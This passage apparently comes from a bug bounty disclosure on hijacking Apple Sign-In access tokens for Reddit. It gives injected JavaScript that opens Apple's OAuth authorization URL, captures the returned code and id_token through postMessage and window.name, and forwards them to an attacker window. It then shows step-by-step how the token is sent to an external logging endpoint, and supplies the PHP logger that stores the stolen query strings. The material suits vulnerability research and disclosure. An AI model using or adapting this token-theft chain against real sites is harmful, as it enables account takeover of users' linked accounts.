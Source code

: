 ```html
<script>var b, x;
var state = parent.location.href.substr(location.href.indexOf('state='));
var d = document.createElement('div');
if (!window.inited) {
  window.inited = true;
d.innerHTML = '<a href="#" onclick="b=window.open(\'https://appleid.apple.com/auth/authorize?client_id=com.reddit.RedditAppleSSO&redirect_uri=https%3A%2F%2Fwww.reddit.com&response_type=code+id_token&state=' + state + '&scope=&response_mode=fragment&m=12&v=1.5.4\');">Click here to hijack Apple access-token for Reddit</a>';
parent.document.children[parent.document.children.length - 1].appendChild(d);
if(top!==parent.window) top.postMessage('stopinject', '*');
parent.window.onmessage=function(e) { if(e.data.indexOf('id_token') !== -1 || e.data.indexOf('code') !== -1) { top.postMessage(e.data, '*'); b.close(); } };
x = setInterval(function() {
if(parent.window.b && parent.window.b.frames[0] && parent.window.b.frames[0].window && parent.window.b.frames[0].window.name) {
  top.postMessage(parent.window.b.frames[0].window.name, '*'); parent.window.b.close();
  clearInterval(x);
};

}, 500);
}
</script>
```

4. This javascript will render the "Click here"-link:

{F1726833}

It will ask the parent window to stop injecting by postMessage, and it will run an interval looking for the `frames[1].window.name`, which is the regular www.redditmedia.com iframe of the window that was opened, as soon as it contains `code`, the value will be sent to the attacker main window through this frame. 
5. The attacker's main window will listen for a postMessage containing `code` and will show the state+code in the window. The page will then load an external logging-URL with the payload.

{F1726835}

6. The attacker now gets the token from the victim in his browser thanks to the monitoring of the log on my server:

{F1726836}

## Logging endpoints

I've added some endpoints in the HTML to log and parse the log to extract the code-parameter. You need to use your own endpoints if you don't want to try mine above from my link.

`https://USE-YOUR-OWN-LOGGER/reddit/log.php` looks like this:

```php
<?php

if (isset($_SERVER['QUERY_STRING'])) {
	file_put_contents('r.log', $_SERVER['QUERY_STRING']."\n", FILE_APPEND);
}
```
